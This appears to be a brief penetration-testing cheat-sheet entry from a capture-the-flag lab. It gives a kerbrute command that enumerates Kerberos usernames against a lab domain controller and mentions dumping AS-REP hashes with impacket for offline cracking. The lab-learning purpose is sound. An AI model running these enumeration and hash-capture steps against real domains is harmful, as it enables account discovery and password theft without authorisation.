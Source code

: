 # Kerbrute
```bash
./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```
If pre-auth isn't required, a hash will be dumped - refer to AS-REP roasting to crack.

### NOTE: Grab the hash with impacket even if you get the hash on kerbrute - they dump from different places and the kerbrute one may be invalid.
